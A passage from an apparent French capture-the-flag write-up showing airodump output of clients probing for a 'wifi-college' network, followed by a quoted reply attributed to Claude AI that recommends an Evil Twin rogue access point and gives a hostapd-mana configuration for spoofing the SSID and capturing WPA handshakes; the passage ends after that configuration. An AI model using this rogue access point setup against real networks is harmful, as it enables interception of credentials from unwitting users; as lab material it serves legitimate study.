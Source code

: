 À ce stade, j'observe bien des clients qui tentent d'accéder à un réseau nommé `wifi-college` mais c'est tout :

```

 CH  8 ][ Elapsed: 8 mins ][ 2025-05-13 08:08 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID


 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   64:32:A8:07:6C:40  -29    0 - 1      0       14         wifi-college                                                                                                                          
 (not associated)   64:32:A8:07:6C:41  -29    0 - 1      0       20         wifi-college                                                                                                                          
 (not associated)   64:32:A8:07:6C:43  -29    0 - 1      0       14         wifi-college                                                                                                                          
 (not associated)   64:32:A8:07:6C:42  -29    0 - 1      0       12         wifi-college                                                                                                                          
Quitting...
```

J'ai eu recours à Claude AI pour avoir une piste en lui donnant la liste des commandes `sudo` ainsi que l'output de `airodump`. Voici son retour :

---------------

C'est intéressant. Votre capture montre qu'aucun point d'accès (AP) n'a été détecté, mais vous voyez des clients WiFi non associés qui envoient des "probe requests" pour tenter de se connecter à un réseau nommé "wifi-college".

Ces 4 appareils (identifiés par leurs adresses MAC qui commençent toutes par `64:32:A8:07:6C`) sont en train de chercher activement un réseau WiFi appelé "wifi-college", mais ce réseau n'est apparemment pas disponible dans l'environnement du CTF.

Étant donné que vous avez accès à `hostapd-mana`, cela suggère que vous pourriez avoir besoin de créer un faux point d'accès (rogue AP) qui usurpe le SSID "wifi-college" pour attirer ces clients. C'est une technique classique d'attaque Evil Twin / Rogue AP.

Voici comment procéder :

1. Créez un fichier de configuration pour hostapd-mana (par exemple `/tmp/mana.conf`) avec le contenu suivant :
   
   ```
   interface=wlan1
   ssid=wifi-college
   hw_mode=g
   channel=1
   bssid=12:34:56:78:90:AB
   mana_wpaout=/tmp/wifi-college.hcapx
   ```
